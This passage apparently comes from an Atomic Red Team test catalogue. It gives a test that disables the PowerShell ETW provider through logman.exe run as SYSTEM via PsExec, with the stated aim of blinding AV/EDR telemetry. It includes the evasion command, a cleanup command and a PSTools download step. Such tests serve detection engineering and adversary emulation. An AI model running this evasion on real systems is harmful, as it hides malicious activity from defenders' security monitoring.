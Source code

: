 This test was created to disable the Microsoft Powershell ETW provider by using the built-in Windows tool, logman.exe. This provider is used as a common source of telemetry in AV/EDR solutions.

**Supported Platforms:** Windows

**auto_generated_guid:** 6f118276-121d-4c09-bb58-a8fb4a72ee84

#### Inputs:

| Name             | Description              | Type   | Default Value                                                              |
| ---------------- | ------------------------ | ------ | -------------------------------------------------------------------------- |
| ps_exec_location | Location of PSExec.      | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;pstools&#92;PsExec.exe |
| session          | The session to disable.  | string | EventLog-Application                                                       |
| provider         | The provider to disable. | string | Microsoft-Windows-Powershell                                               |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
cmd /c "#{ps_exec_location}" -accepteula -i -s cmd.exe /c logman update trace "#{session}" --p "#{provider}" -ets
```

#### Cleanup Commands:

```powershell
cmd /c "#{ps_exec_location}" -i -s cmd.exe /c logman update trace "#{session}" -p "#{provider}" -ets
```

#### Dependencies: Run with `powershell`!

##### Description: PSExec must be installed on the machine.

##### Check Prereq Commands:

```powershell
if (Test-Path "#{ps_exec_location}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PStools.zip"
expand-archive -literalpath "PathToAtomicsFolder\..\ExternalPayloads\PStools.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\pstools" -force
```

<br/>
<br/>

## Atomic Test #6 - Disable .NET Event Tracing for Windows Via Registry (cmd)
